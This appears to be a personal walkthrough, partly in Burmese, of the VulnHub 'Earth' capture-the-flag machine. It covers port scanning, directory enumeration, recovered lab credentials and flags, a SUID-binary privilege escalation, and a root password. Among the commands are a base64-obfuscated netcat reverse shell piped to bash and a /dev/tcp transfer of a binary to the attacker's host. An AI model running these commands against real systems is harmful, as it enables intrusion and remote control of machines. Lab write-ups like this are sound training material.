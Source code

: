 ```yaml
---
{"dg-publish":true,"permalink":"/exploit-from-kali/earth-vulnhub/","tags":["getfullshell","vulnhub","walkthrought"]}
---
```


sudo nmap -sC -sV -oN earth 192.168.90.2                                                                                                                            
Nmap scan report for 192.168.90.2
Host is up (0.0015s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 5b:2c:3f:dc:8b:76:e9:21:7b:d0:56:24:df:be:e9:a8 (ECDSA)
|_  256 b0:3c:72:3b:72:21:26:ce:3a:84:e8:41:ec:c8:f8:41 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
|_http-title: Bad Request (400)
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Bad Request (400)
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
```
sudo nano /etc/hosts
```
##### add this line
192.168.90.2  earth.local  terratest.earth.local
> mozilla > earth.local > sent message > encript code တစ်ခု ကျလာလိမ့်မယ်
>  ဥပမာ : 050c53070e470401097e79
```
gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/common.txt 
```

	  starting gobuster in directory enumeration mode
	/admin                (Status: 301) [Size: 0] [--> /admin/]
	/cgi-bin/             (Status: 403) [Size: 199]
	Progress: 4614 / 4615 (99.98%)
	Finished

earth.local/admin
https://terratest.earth.local/
> try view page source nothing found
```
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt
```
*https ဖြစ်လို့ -k သုံးရတယ်*
/index.html           (Status: 200) [Size: 26]
/robots.txt            (Status: 200) [Size: 26]

>mozilla
>https://terratest.earth.local/testingnotes.txt
>https://terratest.earth.local/testdata.txt
>earth.localhost
*cyberchief use*
![earth-cyberchief.png|400](/img/user/Images%20All/earth-cyberchief.png)

user : terra
pass : earthclimatechangebad4humans
*run command*
whoami
ls /var/earth_web
cat /var/earth_web/user_flag.txt
flag : [user_flag_3353b67d6437f07ba7d34afd7d2fc27d] 
reverse shell online base 64 change ပါ
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMjAwLjcgNDQ0NAo' | base64 -d  | bash

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
### privilege Escalation

find / -perm -u=s 2>/dev/null
file /usr/bin/reset_root
nc -lvnp 3333 > reset_root
cat /usr/bin/reset_root > /dev/tcp/192.168.200.7/3333
apt install ltrace
ltrace ./reset_root
touch kHgTFI5G
touch Zw7bV9U5
touch kcM0Wewe
reset_root
su root
password : Earth
flag : root_flag_b0da9554d29db2117b02aa8b66ec492e




<iframe width="1280" height="720" src="https://www.youtube.com/embed/e9de7AK0i2s?si=A1mMNAb9oeidOksa" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
